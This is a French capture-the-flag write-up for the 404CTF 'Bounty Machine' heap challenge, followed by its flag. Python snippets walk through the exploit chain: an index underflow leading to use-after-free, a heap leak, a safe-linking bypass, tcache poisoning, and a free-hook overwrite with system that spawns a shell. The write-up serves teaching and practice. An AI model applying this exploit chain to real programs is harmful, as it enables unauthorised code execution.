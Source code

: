 # Writeup pour `Bounty Machine`

Auteur : *Pwnsard*  
Difficulté : *Moyen*

### Notions principales :
- Use after free
- Tcache poisoning
- Safe linking

### Protections :

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   89 Symbols	  No	0		3		data/chall
```

On utilise une libc 2.32, donc il faut également éviter le safe linking...

### Principe

Il s'agit d'un chall de heap assez classique. La faille réside dans le fait que la fonction edit_bounty
```C
edit_bounty(uint8_t i)
```
prend en paramètre un uint8, alors qu'on lui passe un int en argument ici :
```C
res = scanf("%d", &idx);
if (idx < nbounties) {
    edit_bounty(idx);
} else {
    puts("This bounty doesn't exist");
}
```
On peut donc exploiter un use after free grâce à un underflow/overflow sur idx pour faire un tcache poisoning : accéder au bounty -256 est comme accéder au bounty 0.

Pour éviter le safe linking de la libc 2.32, on leak d'abord l'adresse de la heap grâce à un premier chunk.

```python
# Leaking the heap base address
print("[*] Leaking heap address")
add_bounty(100, b"HRTC", b"C" * 0x40)
add_bounty(100, b"HRTC", b"D" * 0x40)
free_bounty()
leak = edit_bounty(-255)
amount_leak = int(leak.split(b" ")[11])
leak_pos = u64(leak.split(b'\n')[2] +  b"\x00\x00\x00")
heap_addr = leak_pos << 12
print(f"heap@{hex(heap_addr)}")
apply_edit(amount_leak, p64(leak_pos) + b"E" * 0x38)
free_bounty()
```

Maintenant on récupère un arbitrary read/write. On peut avoir une adresse de la libc dans la heap avec la méthode classique d'allouer un chunk de grande taille (ici 0x4b0) avec malloc. Par contre cette adresse de la libc se finissant par un nullbyte, on ne peut pas la lire directement en créant un faux chunk. On falsifie donc la liste des bounty pour que le pointeur `bounties[0]->name` pointe juste après le null byte (d'où le +1 dans `libc_addr = heap_addr + 0x400 + 1`)

```python
# Putting a libc pointer somewhere on the heap
print("[*] Setting up a libc leak")
add_bounty(100, b"HRTC", b"A" * 0x4b0)
add_bounty(100, b"HRTC", b"B" * 0x4b0)
free_bounty()
free_bounty()

...

# Now creating a fake chunk to leak libc
print("[*] Leaking libc")
bounties_array_addr = heap_addr + 0x2a0
libc_addr = heap_addr + 0x400 + 1
print(f"bounties_array@{hex(bounties_array_addr)}")
print(f"libc_leak@{hex(libc_addr)}")
print(f"libc_leak@{hex(bounties_array_addr ^ leak_pos)}")
add_bounty(100, b"HRTC", b"F" * 0x30)
add_bounty(100, b"HRTC", b"G" * 0x30)
free_bounty()
free_bounty()
leak =  edit_bounty(-256)
amount_leak = int(leak.split(b" ")[11])
apply_edit(amount_leak, p64((bounties_array_addr - 0x20) ^ leak_pos) + b"H" * 0x28)
```

Une fois l'adresse de la libc connue, on réutilise un dernier tcache poisoning pour réécrire l'adresse de `__malloc_free_hook` par celle de `system`. Maintenant lorsque l'on appelle free, on appelle également system.

```C
add_bounty(100, b"HRTC", b"N" * 0x60 + p64(libc.symbols["system"]))

add_bounty(100, b"/bin/sh\x00", b"O" * 0x70)
```

Il ne reste plus qu'à "Claim the latest bounty" en entrant 4, pour être récompensé avec `Congratulations for your catch of /bin/sh !` et obtenir un shell.

Pour résumer :   
underflow > use after free > leak heap et safe linking bypass > tcache poisoning > leak libc > réécriture de __malloc_free_hook > free /bin/sh

Et on obtient un shell !

### Script de résolution :

Voir `solve.py`

### Flag : 

`404CTF{yOU're_G0nnA_CARry_THa7_weIGH7}`